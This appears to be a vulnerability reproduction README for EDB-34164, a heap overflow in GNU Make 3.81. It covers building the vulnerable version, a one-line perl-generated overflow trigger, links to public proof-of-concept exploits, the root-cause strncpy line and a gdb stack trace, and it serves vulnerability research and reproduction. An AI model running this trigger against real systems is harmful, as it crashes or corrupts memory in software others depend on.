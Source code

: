 # EDB-34164

## Experiment Environment

Debian Jessie

[DockerFile](https://github.com/mudongliang/Dockerfiles/tree/master/EDB-34164)

[Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

## INSTALL & Configuration

```
wget http://ftp.gnu.org/gnu/make/make-3.81.tar.gz;
** or **
wget https://raw.githubusercontent.com/mudongliang/source-packages/master/EDB-34164/make-3.81.tar.gz 

tar -xvf make-3.81.tar.gz;
cd make-3.81/;
./configure;
make;
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
./make `perl -e 'print "A" x 4000 . "B"x96 . "\xef\xbe\xad\xde"x4'`
```

## PoCs

[Exploit-DB Make 3.81 - Heap Overflow](https://www.exploit-db.com/exploits/34164/)

[LinuxFlaw Make 3.81 - Heap Overflow (PoC)](https://github.com/mudongliang/LinuxFlaw/blob/master/EDB-34164/34164.pl)

[exploitdb-database Make 3.81 - Heap Overflow (PoC)](https://github.com/offensive-security/exploit-database/blob/master/platforms/linux/dos/34164.pl)

## Vulnerability Details & Patch

### Root Cause

```
implicit.c:478

          strncpy (stem_str, stem, stemlen);

```

### Stack Trace

```
(gdb) info stack
#0  pattern_search (file=0x7fffffffa040, file@entry=0x7fffff006300, 
    archive=archive@entry=0, depth=depth@entry=2, 
    recursions=recursions@entry=1) at implicit.c:752
#1  0x000000000040cedd in pattern_search (file=0x631cf0, 
    file@entry=0xdeadbeefdeadbeef, archive=archive@entry=0, 
    depth=depth@entry=1, recursions=recursions@entry=0) at implicit.c:735
#2  0x000000000040d5b0 in try_implicit_rule (file=0xdeadbeefdeadbeef, 
    file@entry=0x631cf0, depth=depth@entry=1) at implicit.c:48
#3  0x0000000000418306 in update_file_1 (depth=1, file=0x631cf0)
    at remake.c:453
#4  update_file (file=file@entry=0x631cf0, depth=<optimized out>)
    at remake.c:307
#5  0x0000000000418c66 in update_goal_chain (goals=0x66c920)
    at remake.c:154
#6  0x000000000040389f in main (argc=<optimized out>, 
    argv=0x7fffffffdd18, envp=<optimized out>) at main.c:2198
```

## References

[1] [make-3.81](http://ftp.gnu.org/gnu/make/make-3.81.tar.gz)

[2] [make-3.81](https://raw.githubusercontent.com/mudongliang/source-packages/master/EDB-34164/make-3.81.tar.gz)

[3] [DockerFile](https://github.com/mudongliang/Dockerfiles/tree/master/EDB-34164)

[4] [Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

[5] [Exploit-DB Make 3.81 - Heap Overflow](https://www.exploit-db.com/exploits/34164/)

[6] [LinuxFlaw Make 3.81 - Heap Overflow (PoC)](https://github.com/mudongliang/LinuxFlaw/blob/master/EDB-34164/34164.pl)

[7] [exploitdb-database Make 3.81 - Heap Overflow (PoC)](https://github.com/offensive-security/exploit-database/blob/master/platforms/linux/dos/34164.pl)
